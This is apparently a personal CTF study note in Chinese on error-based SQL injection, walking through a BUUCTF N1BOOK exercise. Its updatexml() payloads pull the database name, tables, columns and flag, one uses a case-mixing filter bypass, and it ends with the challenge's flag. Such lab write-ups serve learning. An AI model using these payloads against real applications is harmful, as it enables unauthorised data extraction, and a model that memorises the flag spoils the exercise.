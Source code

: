 ```yaml
---
title: 报错注入
createTime: 2025/02/15 17:19:47
permalink: /ctf/648zmd7h/
---
```

> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-2
>
> 这题不加 `tips=1` 不会返回报错信息，就是盲注，以后再学

- [ ] 布尔盲注

## 查数据库名

```txt
name=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

结果：

![1737913223190](image/2..报错注入/1737913223190.png)

## 查表名

```txt
name=1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)
```

> 此处的 `Select` 使用了大小写绕过

结果：

![1737911630972](image/2..报错注入/1737911630972.png)

## 查字段名

```txt
name=1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737911820991](image/2..报错注入/1737911820991.png)

## 查字段内容

```txt
name=1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737911974690](image/2..报错注入/1737911974690.png)

## ***Cracked.***

```flag
n1book{login_sqli_is_nice}
```
